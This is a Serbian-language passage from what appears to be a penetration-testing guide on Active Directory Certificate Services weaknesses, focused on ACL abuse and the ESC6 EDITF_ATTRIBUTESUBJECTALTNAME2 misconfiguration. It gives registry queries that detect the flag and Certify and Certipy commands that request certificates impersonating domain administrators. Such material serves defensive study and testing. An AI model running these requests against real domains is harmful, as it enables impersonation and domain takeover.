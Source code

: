Opsežna mreža međusobno povezanih odnosa zasnovanih na ACL-u, koja uključuje nekoliko objekata izvan šablona za sertifikate i autoriteta za sertifikate, može uticati na sigurnost celokupnog AD CS sistema. Ovi objekti, koji mogu značajno uticati na sigurnost, obuhvataju:

* AD objekat računara CA servera, koji može biti kompromitovan putem mehanizama poput S4U2Self ili S4U2Proxy.
* RPC/DCOM server CA servera.
* Svaki potomak AD objekta ili kontejner unutar specifične putanje kontejnera `CN=Public Key Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<COM>`. Ova putanja uključuje, ali nije ograničena na, kontejnere i objekte poput kontejnera za šablone sertifikata, kontejnera za sertifikacione autoritete, objekta NTAuthCertificates i kontejnera za usluge upisa.

Sigurnost PKI sistema može biti ugrožena ako napadač sa niskim privilegijama uspe da preuzme kontrolu nad bilo kojim od ovih ključnih komponenti.

## EDITF\_ATTRIBUTESUBJECTALTNAME2 - ESC6

### Objašnjenje

Tema koja se raspravlja u [**CQure Academy postu**](https://cqureacademy.com/blog/enhanced-key-usage) takođe se dotiče implikacija zastavice **`EDITF_ATTRIBUTESUBJECTALTNAME2`**, kako je opisano od strane Microsoft-a. Ova konfiguracija, kada je aktivirana na Autoritetu za sertifikate (CA), omogućava uključivanje **korisnički definisanih vrednosti** u **alternativno ime subjekta** za **bilo koji zahtev**, uključujući one konstruisane iz Active Directory®-ja. Kao rezultat toga, ova odredba omogućava **napadaču** da se upiše putem **bilo kog šablona** postavljenog za **autentifikaciju** domena - posebno onih koji su otvoreni za upisivanje korisnika sa **niskim privilegijama**, poput standardnog korisničkog šablona. Kao rezultat toga, sertifikat može biti obezbeđen, omogućavajući napadaču da se autentifikuje kao administrator domena ili **bilo koja druga aktivna entitet** unutar domena.

**Napomena**: Pristup za dodavanje **alternativnih imena** u zahtev za potpisivanje sertifikata (CSR), putem argumenta `-attrib "SAN:"` u `certreq.exe` (nazvan "Name Value Pairs"), predstavlja **kontrast** od strategije iskorišćavanja SAN-ova u ESC1. Ovde se razlika nalazi u **načinu na koji se informacije o nalogu inkapsuliraju** - unutar atributa sertifikata, umesto unutar ekstenzije.

### Zloupotreba

Da bi se proverilo da li je podešavanje aktivirano, organizacije mogu koristiti sledeću komandu sa `certutil.exe`:

```bash
certutil -config "CA_HOST\CA_NAME" -getreg "policy\EditFlags"
```

Ova operacija u osnovi koristi **udaljeni pristup registru**, stoga alternativni pristup može biti:

```bash
reg.exe query \\<CA_SERVER>\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\<CA_NAME>\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\ /v EditFlags
```

Alati poput [**Certify**](https://github.com/GhostPack/Certify) i [**Certipy**](https://github.com/ly4k/Certipy) mogu otkriti ovu pogrešnu konfiguraciju i iskoristiti je:

```bash
# Detect vulnerabilities, including this one
Certify.exe find

# Exploit vulnerability
Certify.exe request /ca:dc.domain.local\theshire-DC-CA /template:User /altname:localadmin
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template User -upn administrator@corp.local
```
